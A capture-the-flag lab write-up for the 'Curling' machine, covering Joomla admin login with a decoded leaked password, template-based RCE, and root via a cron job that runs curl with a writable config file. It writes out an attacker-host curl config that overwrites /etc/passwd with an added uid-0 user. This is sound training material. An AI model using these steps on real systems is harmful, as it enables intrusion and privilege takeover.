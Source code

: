 # Curling

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.248
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 12:14 EDT
Nmap scan report for 10.129.85.248
Host is up (0.0063s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Blog Enum + Joomla

The page was some type of blog.

<figure><img src="../../../.gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

In one of the posts, there's a user called `floris`.

<figure><img src="../../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>

The page source also had a hidden file:

<figure><img src="../../../.gitbook/assets/image (607).png" alt=""><figcaption></figcaption></figure>

Within it, it had a base64-encoded string. We can pipe the output and decode it:

```
$ curl http://10.129.85.248/secret.txt | base64 -d 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    17  100    17    0     0    941      0 --:--:-- --:--:-- --:--:--   944
Curling2018!
```

Can't use these for now, so let's run a `gobuster` scan as well.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.248 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.248
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 12:16:11 Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 316] [--> http://10.129.85.248/modules/]
/bin                  (Status: 301) [Size: 312] [--> http://10.129.85.248/bin/]
/plugins              (Status: 301) [Size: 316] [--> http://10.129.85.248/plugins/]
/includes             (Status: 301) [Size: 317] [--> http://10.129.85.248/includes/]
/language             (Status: 301) [Size: 317] [--> http://10.129.85.248/language/]
/components           (Status: 301) [Size: 319] [--> http://10.129.85.248/components/]
/images               (Status: 301) [Size: 315] [--> http://10.129.85.248/images/]
/cache                (Status: 301) [Size: 314] [--> http://10.129.85.248/cache/]
/libraries            (Status: 301) [Size: 318] [--> http://10.129.85.248/libraries/]
/tmp                  (Status: 301) [Size: 312] [--> http://10.129.85.248/tmp/]
/layouts              (Status: 301) [Size: 316] [--> http://10.129.85.248/layouts/]
/administrator        (Status: 301) [Size: 322] [--> http://10.129.85.248/administrator/]
/templates            (Status: 301) [Size: 318] [--> http://10.129.85.248/templates/]
/media                (Status: 301) [Size: 314] [--> http://10.129.85.248/media/]
/cli                  (Status: 301) [Size: 312] [--> http://10.129.85.248/cli/]
/server-status        (Status: 403) [Size: 278]
```

Loads of directories. The `/administrator` directory had a Joomla login:

<figure><img src="../../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>

We can login using `floris:Curling2018!`.&#x20;

<figure><img src="../../../.gitbook/assets/image (573).png" alt=""><figcaption></figcaption></figure>

We can follow the instructions from Hacktrikcs to get RCE on this website by creating new PHP Templates.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce" %}

<figure><img src="../../../.gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

Then we can get a reverse shell using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (576).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Backup

We can't capture the user flag yet. In `floris` home directory, there's a `password-backup` file.

```
www-data@curling:/home/floris$ ls
admin-area  password_backup  user.txt
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

It appears that the `hexdump` of the original file was taken and this is what is left. We can reverse this with `xxd -r`.&#x20;

<figure><img src="../../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

This file turns out to be loads of zip files, so we have to do `bunzip2` and `gunzip` twice and `tar` once. Eventually, we will end up with this file:

```
$ cat password.txt   
5d<wdCbdZu)|hChXll
```

We can use this to `su` to `floris`.

<figure><img src="../../../.gitbook/assets/image (564).png" alt=""><figcaption></figcaption></figure>

### To Root

I ran `pspy64` on the machine to see if there were background processes running as `root`.&#x20;

```
2023/05/06 11:41:01 CMD: UID=0    PID=3317   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input                                                                  
2023/05/06 11:41:01 CMD: UID=0    PID=3316   | /usr/sbin/CRON -f 
2023/05/06 11:41:01 CMD: UID=0    PID=3315   | /usr/sbin/CRON -f
2023/05/06 11:41:01 CMD: UID=0    PID=3320   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

There was some `curl` command being used to read something. Here are the files in question:

```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
floris@curling:~/admin-area$ head -n 10 report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

So this was reading the URL from a file and outputting it elsewhere. The command uses the `config` command, which one can read more here:

{% embed url="https://curl.se/docs/manpage.html" %}

Essentially, we can specify extra tags here, like `--output` as `output` and so on.

```
# --- Example file ---
# this is a comment
url = "example.com"
output = "curlhere.html"
user-agent = "superagent/1.0"
# and fetch another URL too
url = "example.com/docs/manpage.html"
-O
referer = "http://nowhereatall.example.com/"
# --- End of example file ---
```

This means that we can download any files as `root` since `root` is the one who is running the commands by changing the `curl` configuration file used (which we conveniently have write access over).&#x20;

This means we can overwrite files like `/etc/passwd` and add new `root` users to the machine. First, we would need to get a copy of the `/etc/passwd` of the machine onto ours, and append this line to it:

```
innocent:$1$innocent$VMCqt3i38ds/9QvgZcetR0:0:0:/root:/bin/bash
```

This would create a new user within the `/etc/passwd` file called `innocent` with a password of `password123`. Then we need to change the configuration files to this and start a HTT Pserver:

```
url = "http://10.10.14.13/passwd_original"
output = "/etc/passwd"
```

After the machine has downloaded the file, we can just `su` to our new user.

<figure><img src="../../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

Rooted!
